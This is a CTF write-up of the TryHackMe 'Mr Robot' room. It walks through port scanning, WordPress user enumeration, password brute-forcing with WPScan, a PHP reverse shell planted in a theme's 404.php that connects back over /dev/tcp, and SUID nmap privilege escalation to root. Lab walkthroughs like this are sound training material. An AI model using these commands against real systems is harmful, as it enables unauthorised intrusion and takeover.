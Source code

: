 ```yaml
---
title: Mr Robot
categories: [TryHackMe]
tags: [Linux, medium,]
image: images/Mr Robot/Mr Robot.png
---
```

**Mr. Robot** is an **medium** rated room on **TryHackMe** inspired by the Mr. Robot TV series. The challenge begins with a web server hosting a WordPress site that contains clues and vulnerabilities. By enumerating the web server, you discover hidden directories and files, leading to the extraction of sensitive information. Gaining initial access involves using cracked credentials found through wordlists and exploiting the WordPress setup.


# 1. Initial Reconnaissance and Scanning:
The first phase of any Capture The Flag (CTF) challenge is information gathering. Our goal here is to identify what services are running on the target machine and which ports are open. This intelligence sets the stage for future attacks. 
### Nmap Scan:
Use Nmap to scan the target's open ports, services, and versions:

```console
nmap -sC -sV -oN nmap_scan <Target_IP>

``` 
●`-sC:` Enables default scripts, often revealing common vulnerabilities.  
●`-sV:` Detects service/version information, such as Apache, OpenSSH, etc.  
●`-oN` nmap_scan: Saves the output into a file named nmap_scan for later reference.

### Understanding the Results:
Look for ports such as:

●**Port 80** (HTTP): Likely indicates a website is running.   
●**Port 443** (HTTPS): Secure HTTP services.   
●**Port 22** (SSH): Useful later for remote access.  

# 2. Web Enumeration :

With **port 80 (HTTP)** open, it's time to explore the website for hidden vulnerabilities or clues. This includes both manual inspection and automated enumeration of directories.

### Inspect the Website:
Visit the site at `http://<Target_IP>`. The website is themed around the **Mr. Robot** show, but stay focused on finding clues. Check the **page source** for hidden comments or links that developers might have left behind.

**robots.txt File:**
The `robots.txt` file can contain sensitive or hidden information that isn't meant for users. Access it with:

```console
curl http://<Target_IP>/robots.txt
``` 


You'll find two key pieces of information:

**●fsocity.dic:** A wordlist for brute-forcing passwords.   
**●key-1-of-3.txt:** The first flag. Retrieve it from `http://<Target_IP>/key-1-of-3.txt`.
Download both files:
```console
wget http://<Target_IP>/fsocity.dic
wget http://<Target_IP>/key-1-of-3.txt
``` 
The **fsocity.dic** file is a wordlist we will use later for brute-forcing the login credentials.

# 3. Directory Brute-Forcing
Next, we perform directory brute-forcing to uncover hidden pages or admin areas. This step can lead to further insights about the target's web structure.

### Gobuster or Dirb Scan:


```console
gobuster dir -u http://<Target_IP> -w /usr/share/wordlists/dirb/common.txt
``` 
●`u:` The target URL.
●`w:` The wordlist (in this case, common.txt).
●`t:` Number of threads to speed up the process.
The scan will reveal directories like `/wp-admin` and `/wp-login.php`, indicating the presence of **WordPress** on the machine a crucial discovery, as WordPress sites are often vulnerable.

# 4. WordPress Enumeration
Knowing that the target is running WordPress, the next step is to enumerate the WordPress installation to identify users and vulnerabilities.

### WPScan:
WPScan is a great tool for WordPress enumeration. Let's start by finding users:

```console
wpscan --url http://<Target_IP> --enumerate u
``` 

This scan will likely reveal a username like **Elliot**, named after the main character from Mr. Robot. Now you have a target for a brute-force attack.

# 5. Brute-Forcing WordPress Login
With the username **Elliot** identified, the next step is to brute-force the password using the **fsocity.dic** wordlist.

### WPScan Brute-Force:
```console
wpscan --url http://<Target_IP> --wordlist fsocity.dic --username Elliot
```
WPScan will attempt to log in with each password in the wordlist until it succeeds, eventually cracking the password.

# 6. Gaining Access Through WordPress
Once you’ve logged in as **Elliot** via `http://<Target_IP>/wp-login.php`, you have control over the WordPress site. Your next goal is to upload a **reverse shell** and gain access to the underlying system.

### Uploading a Reverse Shell:
Go to **Appearance > Theme Editor**, and select the `404.php` file. Replace its content with **Pentestmonkey’s PHP reverse shell**: [link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) 

```console
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<Your_IP>/<Your_Port> 0>&1'");
?>
```



Insert your local machine's IP address and the port you want to listen on.

# Netcat Listener:
On your machine, set up a listener with **Netcat**:

```console
nc -lvnp <Your_Port>
```

# Trigger the Reverse Shell:
Visit the following URL to execute the reverse shell:
```console
http://<Target_IP>/wp-content/themes/<theme>/404.php
```

This will establish a connection between the target and your local machine.


# 7. Privilege Escalation
Now that you have a shell, you need to escalate your privileges from a low-level user to **root**.

### System Enumeration:
Check system information and identify potential privilege escalation vectors:
```console
whoami        # Check current user
hostname      # System name
uname -a      # Kernel version
``` 
### Using LinEnum or LinPEAS:
You can automate the privilege escalation enumeration process using tools like **LinEnum** or **LinPEAS**:
```console
wget http://<URL_to_LinEnum>/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```
### Escalating with SUID Binaries:
Check for binaries with the SUID bit set (which run as root even if you're a regular user):
```console
find / -perm -u=s -type f 2>/dev/null
```
If **nmap** has the SUID bit set, you can use its interactive mode to escalate privileges:
```console
nmap --interactive
!sh
``` 
This will drop you into a root shell.


# 8. Capture the Flags
Now that you have root access, it's time to capture all three flags.

●**First Flag**: Found in the `robots.txt` file (`key-1-of-3.txt`).
●**Second Flag**: Search the home directories to find the second flag:
```console
cat /home/<username>/key-2-of-3.txt
```
●**Root Flag**: The final flag is usually located in the root directory:
```console
cat /root/key-3-of-3.txt
```



<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Background Image Example</title>
    <style>
        body {
            background-image: url('https://tryhackme-images.s3.amazonaws.com/user-avatars/62fb0c2dc7648a0052dc5e26-1712443879358'); /* Relative path */
            background-size: cover; /* Make sure the image covers the whole screen */
            background-position: center; /* Center the image */
            background-attachment: fixed; /* Make the background fixed during scroll */
            height: 100vh; /* Make sure the background covers the full height of the viewport */
            margin: 0;
        }
    </style>
</head>

</html>
